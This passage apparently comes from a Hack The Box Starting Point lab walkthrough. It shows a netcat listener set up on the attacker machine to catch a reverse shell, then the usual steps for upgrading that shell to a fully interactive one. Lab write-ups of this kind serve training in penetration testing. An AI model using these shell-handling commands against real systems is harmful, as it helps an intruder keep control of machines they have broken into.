    ![](../assets/img/htb-starting-point/30.png)

   ![](../assets/img/htb-starting-point/31.png)

10. Use **nc** on attacker machine to listen the connecting back shell

    ```bash
    nc -lnvp <Port>
    ```

11. Let's upgrade the shell to make it fully interactive (optional)

    ```bash
    # In reverse shell
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z
    # In Kali
    $ stty raw -echo; fg
    Enter
    # In reverse shell
    $ export TERM=xterm-256color
    Enter